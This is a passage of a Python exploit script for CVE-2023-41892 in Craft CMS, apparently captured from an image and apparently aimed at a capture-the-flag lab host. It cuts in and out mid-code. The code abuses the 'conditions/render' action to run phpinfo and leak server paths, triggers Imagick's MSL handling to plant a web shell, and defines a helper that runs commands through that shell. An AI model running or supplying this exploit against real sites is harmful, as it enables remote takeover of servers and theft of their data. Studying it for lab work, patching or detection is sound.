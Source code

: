 ```bash
    }

    response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://127.0.0.1:8080"})

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'

    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    print(match1.group(1), match2.group(1))
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)

def shell(cmd):
    response = requests.get(base_url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if (len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        base_url = 'http://surveillance.htb'
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
```
